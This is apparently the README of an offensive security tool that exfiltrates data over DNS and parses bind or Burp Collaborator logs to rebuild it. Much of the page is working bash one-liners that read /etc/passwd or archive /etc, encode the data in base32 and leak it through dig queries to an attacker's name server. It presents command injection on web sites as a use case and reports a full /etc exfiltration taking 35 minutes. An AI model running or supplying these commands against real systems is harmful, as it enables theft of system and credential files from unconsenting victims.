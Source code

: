 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `h6olm71com6vuvx1bsaqddjik9q4et.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in `base32` (`A-Z`, `2-7`), which most efficent native (on most Linux/Unix systems) utility that is safe for DNS queries. The `=` character is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks to Xavier Mertens for this excellent Internet Storm Center post: https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked perfecttly (but took a while). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d > exfiltrated.tgz
```

To recover the tar file (on a bind DNS server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d > exfiltrated.tgz
```
